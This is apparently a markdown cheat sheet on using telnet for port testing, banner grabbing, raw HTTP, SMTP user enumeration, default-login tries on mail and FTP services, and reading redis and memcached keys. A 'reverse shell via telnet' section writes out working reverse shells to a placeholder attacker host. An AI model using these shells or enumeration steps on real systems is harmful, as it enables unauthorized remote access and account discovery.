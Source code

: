 # test network services with telnet because netcat isn't always installed. example: probe ports, send http requests, banner grab

## basic connections
```bash
telnet 192.168.1.1 80          # connect to port 80
telnet google.com 443          # connect to https port
nc -nv 192.168.1.1 80          # netcat alternative (if available)
```

## exit telnet session
```bash
# in session: ctrl+] then type quit
# or just ctrl+c to force exit
```

## common port testing
```bash
telnet target 21               # ftp
telnet target 22               # ssh (will show version)
telnet target 23               # telnet service
telnet target 25               # smtp
telnet target 53               # dns
telnet target 80               # http
telnet target 110              # pop3
telnet target 143              # imap
telnet target 443              # https
telnet target 993              # imaps
telnet target 995              # pop3s
telnet target 3306             # mysql
telnet target 5432             # postgresql
telnet target 8080             # http alternate
```

## http requests via telnet
```bash
# basic get request
telnet example.com 80
GET / HTTP/1.1
Host: example.com
Connection: close

# get specific page
GET /admin HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Connection: close

# post request
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=admin&pass=secret
```

## service banner grabbing
```bash
# grab service banners
telnet target 21               # ftp: "220 (vsFTPd 3.0.3)"  
telnet target 22               # ssh: "SSH-2.0-OpenSSH_7.4"
telnet target 25               # smtp: "220 mail.target.com ESMTP"
telnet target 3306             # mysql: "5.7.32-log MySQL"
```

## smtp enumeration
```bash
telnet target 25
EHLO attacker.com
VRFY root                      # verify user exists
EXPN admin                     # expand mailing list
RCPT TO: user@target.com       # check if user exists
```

## ftp interaction
```bash
telnet target 21
USER anonymous                 # try anonymous login
PASS anything
USER admin                     # try common usernames
PASS admin
LIST                          # list files
RETR filename.txt             # download file
```

## pop3/imap testing
```bash
# pop3
telnet target 110
USER admin
PASS password
LIST                          # list emails
RETR 1                        # retrieve email 1

# imap
telnet target 143
a1 LOGIN admin password
a2 LIST "" "*"                # list mailboxes
a3 SELECT INBOX               # select inbox
a4 FETCH 1 BODY[]             # fetch email body
```

## automated banner grabbing
```bash
# bash script for multiple ports
for port in 21 22 23 25 53 80 110 443 993 995 3306 5432 8080; do
    echo "Testing port $port"
    timeout 3 telnet target $port 2>/dev/null || echo "Port $port closed"
done

# one-liner port scan
echo "quit" | telnet target 80 2>/dev/null | head -5
```

## reverse shell via telnet
```bash
# linux reverse shell
telnet attacker_ip 4444 | /bin/bash | telnet attacker_ip 4445

# or use built-in reverse shell  
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | telnet attacker_ip 4444 1>/tmp/backpipe

# python reverse shell
python -c "import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('10.10.10.10', 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call(['/bin/sh', '-i'])"
```

## service-specific interactions
```bash
# mysql interaction
telnet target 3306
# look for version in response, might allow injection

# redis interaction  
telnet target 6379
INFO                          # get redis info
KEYS *                        # list all keys
GET keyname                   # get key value

# memcached interaction
telnet target 11211
stats                         # get statistics
get keyname                   # retrieve cached item
```

## scripted telnet usage
```bash
#!/bin/bash
# automated http request
{
    echo "GET / HTTP/1.1"
    echo "Host: $1"
    echo "Connection: close"
    echo ""
} | telnet $1 80

# save as http_check.sh, use: ./http_check.sh example.com
```

## telnet over proxy
```bash
# through tor (needs proxychains)
proxychains telnet target.onion 80

# through socks proxy
ssh -D 8080 user@proxy_server
# then configure app to use socks proxy at 127.0.0.1:8080
```

## (._.) gotchas
```bash
# telnet sends each keypress immediately
# use netcat instead for file transfers
# ssl/tls services will show garbled text
# modern services may drop connection immediately
# some services need specific protocols (http/1.1 vs http/1.0)
```

# TODO: add telnet protocol negotiation, telnet options, binary mode transfers